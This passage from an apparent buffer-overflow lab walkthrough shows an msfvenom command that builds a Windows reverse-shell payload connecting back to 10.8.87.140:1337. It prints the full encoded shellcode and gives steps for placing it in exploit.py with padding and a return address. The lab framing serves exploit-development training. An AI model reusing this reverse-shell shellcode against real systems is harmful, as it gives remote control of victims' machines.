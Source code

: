 ![](/images/bof3.png)

Set the "`retn`" variable to chosen address in little-endian.

## Generating Payload

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.87.140 LPORT=1337 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1712 bytes
buf =  b""
buf += b"\xd9\xc7\xd9\x74\x24\xf4\xbf\xcc\x83\x01\xb7\x5a\x33"
buf += b"\xc9\xb1\x52\x31\x7a\x17\x83\xea\xfc\x03\xb6\x90\xe3"
buf += b"\x42\xba\x7f\x61\xac\x42\x80\x06\x24\xa7\xb1\x06\x52"
buf += b"\xac\xe2\xb6\x10\xe0\x0e\x3c\x74\x10\x84\x30\x51\x17"
buf += b"\x2d\xfe\x87\x16\xae\x53\xfb\x39\x2c\xae\x28\x99\x0d"
buf += b"\x61\x3d\xd8\x4a\x9c\xcc\x88\x03\xea\x63\x3c\x27\xa6"
buf += b"\xbf\xb7\x7b\x26\xb8\x24\xcb\x49\xe9\xfb\x47\x10\x29"
buf += b"\xfa\x84\x28\x60\xe4\xc9\x15\x3a\x9f\x3a\xe1\xbd\x49"
buf += b"\x73\x0a\x11\xb4\xbb\xf9\x6b\xf1\x7c\xe2\x19\x0b\x7f"
buf += b"\x9f\x19\xc8\xfd\x7b\xaf\xca\xa6\x08\x17\x36\x56\xdc"
buf += b"\xce\xbd\x54\xa9\x85\x99\x78\x2c\x49\x92\x85\xa5\x6c"
buf += b"\x74\x0c\xfd\x4a\x50\x54\xa5\xf3\xc1\x30\x08\x0b\x11"
buf += b"\x9b\xf5\xa9\x5a\x36\xe1\xc3\x01\x5f\xc6\xe9\xb9\x9f"
buf += b"\x40\x79\xca\xad\xcf\xd1\x44\x9e\x98\xff\x93\xe1\xb2"
buf += b"\xb8\x0b\x1c\x3d\xb9\x02\xdb\x69\xe9\x3c\xca\x11\x62"
buf += b"\xbc\xf3\xc7\x25\xec\x5b\xb8\x85\x5c\x1c\x68\x6e\xb6"
buf += b"\x93\x57\x8e\xb9\x79\xf0\x25\x40\xea\xf5\xb1\x1d\x66"
buf += b"\x61\xc0\xa1\x73\x4b\x4d\x47\x11\xbb\x1b\xd0\x8e\x22"
buf += b"\x06\xaa\x2f\xaa\x9c\xd7\x70\x20\x13\x28\x3e\xc1\x5e"
buf += b"\x3a\xd7\x21\x15\x60\x7e\x3d\x83\x0c\x1c\xac\x48\xcc"
buf += b"\x6b\xcd\xc6\x9b\x3c\x23\x1f\x49\xd1\x1a\x89\x6f\x28"
buf += b"\xfa\xf2\x2b\xf7\x3f\xfc\xb2\x7a\x7b\xda\xa4\x42\x84"
buf += b"\x66\x90\x1a\xd3\x30\x4e\xdd\x8d\xf2\x38\xb7\x62\x5d"
buf += b"\xac\x4e\x49\x5e\xaa\x4e\x84\x28\x52\xfe\x71\x6d\x6d"
buf += b"\xcf\x15\x79\x16\x2d\x86\x86\xcd\xf5\xa6\x64\xc7\x03"
buf += b"\x4f\x31\x82\xa9\x12\xc2\x79\xed\x2a\x41\x8b\x8e\xc8"
buf += b"\x59\xfe\x8b\x95\xdd\x13\xe6\x86\x8b\x13\x55\xa6\x99"
```

Copy the output into the `exploit.py` and equate the "`payload`" variable to the "`buf`" variable.

Set the "`padding`" variable to `\x90" * 16`.


## `Immunity Debugger` Shortcuts

```bash
Ctrl+F2   Re-open the binary
F9        Run
```